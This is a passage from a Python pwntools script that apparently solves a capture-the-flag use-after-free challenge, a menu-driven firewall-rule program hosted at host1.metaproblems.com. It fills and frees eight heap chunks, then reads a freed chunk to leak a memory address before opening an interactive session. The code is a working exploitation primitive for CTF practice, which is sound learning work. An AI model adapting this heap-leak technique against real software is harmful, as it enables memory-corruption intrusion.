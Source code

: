```python
	p.recvuntil(b'Your firewall rule ID is: ')
	return p.recvline().strip()

def view(i):
	global p
	option(b'2')
	p.recvline()
	p.clean()
	p.sendline(i)
	p.recvuntil(b'Your rule: ')
	return p.recvline()[:-1]

def edit(i,m):
	global p
	option(b'3')
	p.recvuntil(b'you want to edit:\n')
	p.clean()
	p.sendline(i)
	p.recvuntil(b'new firewall rule here:\n')
	p.clean()
	p.sendline(m)

def delete(i):
	global p
	option(b'4')
	p.recvuntil(b'you want to delete:\n')
	p.clean()
	p.sendline(i)
	return p.recvline()


elf = context.binary = ELF('./uaf_patched')
libc = ELF('./libc.so.6')
url,port = 'host1.metaproblems.com',5600

if args.REMOTE:
	p = remote(url,port)
else:
	p = elf.process()

if args.GDB:
	gdb.attach(p)

for _ in range(8):
	print('creating',_)
	create(b'test')
for i in range(7,-1,-1):
	print('deleting',i)
	delete(str(i).encode())

leak = view(b'0')
leak = u64(leak.ljust(8,b'\x00'))
print(hex(leak))

p.interactive()
p.close()
```
